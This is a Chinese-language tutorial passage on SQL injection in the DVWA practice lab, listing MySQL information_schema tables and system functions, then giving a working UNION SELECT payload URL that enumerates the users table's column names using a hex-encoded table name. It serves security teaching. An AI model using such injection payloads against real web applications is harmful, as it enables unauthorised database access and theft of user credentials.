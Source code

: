 - STATISTICS表：给出了关于表索引的信息。

- USER_PRIVILEGES表：给出了关于全程权限的信息。该信息源自mysql.user授权表。

- SCHEMA_PRIVILEGES表：给出了关于方案（数据库）权限的信息。该信息来自mysql.db授权表。

- TABLE_PRIVILEGES表：给出了关于表权限的信息。该信息源自mysql.tables_priv授权表。

- COLUMN_PRIVILEGES表：给出了关于列权限的信息。该信息源自mysql.columns_priv授权表。

- CHARACTER_SETS表：提供了关于可用字符集的信息。

- COLLATIONS表：提供了关于各字符集的对照信息。

- COLLATION_CHARACTER_SET_APPLICABILITY表：指明了可用于校对的字符集。

- TABLE_CONSTRAINTS表：描述了存在约束的表。

- KEY_COLUMN_USAGE表：描述了具有约束的键列。

- ROUTINES表：提供了关于存储子程序（存储程序和函数）的信息。此时，ROUTINES表不包含自定义函数（UDF）。

- VIEWS表：给出了关于数据库中的视图的信息。

- TRIGGERS表：提供了关于触发程序的信息。

### 系统信息函数

- VERSION()返回数据库的版本号

- CONNECTION_ID()返回服务器的连接数，也就是到现在为止mysql服务的连接次数

- DATABASE(),SCHEMA()返回当前数据库名

- USER()返回当前用户的名称

- CHARSET(str)返回字符串str的字符集

- COLLATION(str)返回字符串str的字符排列方式

- LAST_INSERT_ID()返回最后生成的auto_increment值


##点击获取所有users表的字段

http://192.168.56.80/dvwacn/vulnerabilities/sqli/?id=-1%27%20UNION%20SELECT%201,concat(column_name)%20from%20information_schema.columns%20where%20table_name=0x7573657273%20%23&Submit=%C8%B7%B6%A8


url解码后

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli/?id=-1' UNION SELECT 1,concat(column_name) from information_schema.columns where table_name=0x7573657273 #&Submit=确定
```

###column_name

column_name指的是表的列名

###0x7573657273

0x7573657273这个是users的十六进制表示形式。

```
mysql> select hex('users');
+--------------+
| hex('users') |
+--------------+
| 7573657273   |
+--------------+
1 row in set (0.00 sec)
```
